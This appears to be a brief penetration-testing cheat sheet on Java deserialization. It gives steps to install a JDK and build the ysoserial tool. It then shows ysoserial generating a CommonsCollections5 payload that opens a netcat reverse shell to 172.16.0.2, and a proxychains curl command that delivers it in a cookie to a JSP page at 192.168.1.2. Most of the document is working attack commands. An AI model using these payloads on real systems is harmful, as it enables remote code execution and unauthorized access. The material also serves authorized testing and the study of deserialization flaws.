 ## Deserialization

Let the application deserialize your own injected objects that have a method that is called by the application or that calls a method in constructor/deconstructor.

### Build ysoserial
####Install JDK
```
Download http://www.oracle.com/technetwork/java/javase/downloads/index.html
unzip
mv jdk1.8.0_102/ /opt/
export JAVA_HOME="/opt/jdk1.8.0_102"
export JAVA_BIN="/opt/jdk1.8.0_102/bin"

update-alternatives --install /usr/bin/java java /opt/jdk1.8.0_102/bin/java 1
update-alternatives --set java /opt/jdk1.8.0_102/bin/java
```

#### Builing jars from src /pom.xml
```
apt-get install maven
mvn install -DskipTests=true -Dmaven.javadoc.skip=true -B -V
```

#### Build ysoserial - Java deserialisation
```
git clone https://github.com/frohoff/ysoserial
mvn install -DskipTests=true -Dmaven.javadoc.skip=true -B -V
```

#### Use ysoserial 0.0.5
```
java -jar ysoserial-0.0.5-SNAPSHOT-all.jar CommonsCollections5 '/bin/nc -e /bin/sh 172.16.0.2 10101' | base64 | tr -d '\n'

proxychains curl -b 'userInfo = "'$(java -jar ../../web/ysoserial-0.0.5-SNAPSHOT-all.jar CommonsCollections5 '/bin/nc -e /bin/sh 172.16.0.2 10101' | base64 | tr -d '\n')'"'  http://192.168.1.2:8080/index.jsp
```

tags: deserialization ysoserial [object injection]
